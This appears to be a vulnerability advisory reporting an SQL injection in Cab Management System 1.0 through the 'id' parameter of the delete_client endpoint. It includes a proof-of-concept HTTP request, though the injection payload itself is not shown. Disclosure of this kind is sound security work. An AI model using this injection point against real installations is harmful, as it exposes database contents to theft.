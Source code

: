 ## Affected version: 
Cab Management System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15180/cab-management-system-phpoop-free-source-code.html#google_vignette

## Vulnerability File:
/cms/classes/Users.php?f=delete_client

## Description:
Cab Management System 1.0 is vulnerable to unrestricted SQL injection attacks via /cms/classes/Users.php?f=delete_client, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /cms/classes/Users.php?f=delete_client HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://localhost
Connection: close
Referer: http://localhost/cms/admin/?page=clients
Cookie: PHPSESSID=32cto35al185bgmn489u9arakg; __insuarance__logged=1; __insuarance__key=PO3ZYU67VV15JHRDZ5SJ
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23
Priority: u=1
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/b2bcd1e3-6c44-4782-b0be-8ef4fc8176ba)


## code analysis:

The id parameter in admin_class.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/dfe9f651-8c70-40b4-8142-3232ccb2c2d5)

